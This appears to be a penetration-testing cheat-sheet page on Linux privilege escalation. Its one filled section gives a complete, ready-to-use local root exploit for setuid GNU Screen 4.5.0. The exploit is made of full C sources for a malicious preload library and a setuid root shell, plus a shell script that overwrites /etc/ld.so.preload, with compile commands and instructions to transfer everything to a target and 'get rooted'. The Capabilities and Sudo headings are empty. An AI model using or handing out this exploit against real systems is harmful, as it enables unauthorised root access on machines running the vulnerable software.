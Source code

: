 # Linux - CapSuidSudo

# Capabilities

# SUID

- [Screen-4.50](#screen-4.50)

### Screen-4.50

All of these file do it on your machine first then transfer the file to your targets.

Save the file in libhax.c. Then compile like the command below:
```
# Command to Compile
gcc -fPIC -shared -ldl -o libhax.so libhax.c

# Script To Save (libhax.c)

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

Save the file in rootshell.c. Then compile like the command below:
```
# Command to Compile
gcc -o rootshell rootshell.c

# Script To Save (rootshell.c)

#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

Save the file in screenroot.sh like below:
```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

After that please transfer all of the files and chmod 777 all the transfer files on your target machine. Run like below and get rooted!
```
./screenroot.sh
./rootshell
```

Link => [ExploitDB-41154](https://www.exploit-db.com/exploits/41154)


# Sudo